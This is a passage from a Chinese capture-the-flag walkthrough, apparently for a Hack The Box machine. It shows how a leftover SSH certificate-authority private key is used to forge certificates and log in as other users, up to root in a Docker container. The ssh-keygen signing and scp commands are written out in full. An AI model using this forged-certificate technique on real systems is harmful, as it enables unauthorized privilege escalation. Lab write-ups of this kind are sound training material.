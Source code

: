 ![](https://mmbiz.qpic.cn/mmbiz_png/yKTOKd3ibs9ichfplmKEJNch7DHYwuBnKt7A2R5Oaedn6QHwMtiaXG2CicnCAXibvNicicoQs2yrV9xmtDWVrE3klL2VA/640?wx_fmt=png "")  
  
             
  
**ssh**  
登录**msainristil**用户。  
```
ssh msainristil@ssg.htb
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yKTOKd3ibs9ichfplmKEJNch7DHYwuBnKtbAxqQTaFWm9MLTLJQhcTYPm6FPXwJCWnhib6A2jSCyDnJiaoQZVGeDicg/640?wx_fmt=png "")  
  
             
  
**0003.Docker中zzinter用户权限**      
  
在**msainristil**  
用户目录下**decommission_old_ca**文件夹，里面有两个文件**ca-itrc**和**ca-itrc.pub**。这里需要自己创建密钥，然后使用ca签名就可以登录了。  
  
不了解的可以参考这篇文章：  
> ssh使用CA签名登录  
  
> https://www.cnblogs.com/osnosn/p/16870594.html  
  
  
        
  
使用下列命令生成私钥**users_key**和公钥**users_key.pub**  
```
ssh-keygen -t rsa -C zzinter@ssg.htb -f users_key
```  
  
        
  
使用下列命令进行签名，得到**user_key-cert.pub**文件。  
```
ssh-keygen -s ca-itrc -n zzinter -I ident users_key.pub
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yKTOKd3ibs9ichfplmKEJNch7DHYwuBnKtthGLYzh4H5soYLAlJff3k3EnDGCDpOX5UnrZu5GeF7T9ECvCyOCjmA/640?wx_fmt=png "")  
  
  
使用下列命令将文件传回kali。  
```
scp msainristil@ssg.htb:/home/msainristil/decommission_old_ca/user* .
```  
  
         
  
使用ssh登录zzinter  
```
ssh -i users_key zzinter@ssg.htb
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yKTOKd3ibs9ichfplmKEJNch7DHYwuBnKtGDIOUaateyAslrYJvA2thjZ7xTcuvb3AFyf5uIBDWALeUX2M9ksVfQ/640?wx_fmt=png "")  
  
             
  
**0004.获取docker的root权限**  
  
使用上诉方法  
  
**靶机：**  
```
ssh-keygen -t rsa -C root@ssg.htb -f dockerroot
ssh-keygen -s ca-itrc -n root -I ident dockerroot.pub
```  
  